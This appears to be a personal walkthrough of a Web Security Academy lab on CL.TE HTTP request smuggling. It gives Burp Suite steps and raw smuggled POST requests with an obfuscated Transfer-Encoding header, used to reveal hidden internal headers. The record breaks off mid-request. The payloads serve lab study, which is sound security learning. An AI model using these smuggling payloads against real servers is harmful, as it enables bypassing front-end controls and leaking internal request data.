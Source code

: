1st
proxy a get request for the home page and send it to repeater
then proxy a search (post request) and send that to repeater
2nd
smuggle probe the GET / request
3rd
go to the smuggle probe result and send it to repeater, remove the non-essential headers and
send it once to test it out
4th
copy the smuggle probed POST request, and go to the repeater tab containing the search post request from earlier
and paste the smuggle probed POST above the search POST. leave only a zero separated by a space on both sides between the two post requests
5th
edit the two requests, make them look like this:
---
POST / HTTP/1.1
Host: ac0e1f141ec03abfc0b6a6ec002b006e.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
tRANSFER-ENCODING: chunked
0
POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close
search=PHONE
---
6th
make sure update content length is on in the repeater menue
send the dual post requests through a couple times
the goal is to reveal the hidden host header
if that isnt seen, then send the request to ..
right click on request window and select
Extensions -> HTTP Request Smuggler -> Smuggle Attack(CL.TE)
---
##### How it went & looked:
---
POST / HTTP/1.1
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
tRANSFER-ENCODING: chunked
0
POST / HTTP/1.1
Content-Length: 200
Content-Type: application/x-www-form-urlencoded
Connection: close
search=PHONE
---
##### a few requests in turbo and secrete headers were revealed: localhost headers
---
POST / HTTP/1.1
Host: acd11f5b1f0e833cc0e4960b00fe00b2.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 124
tRANSFER-ENCODING: chunked
5a
GET / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15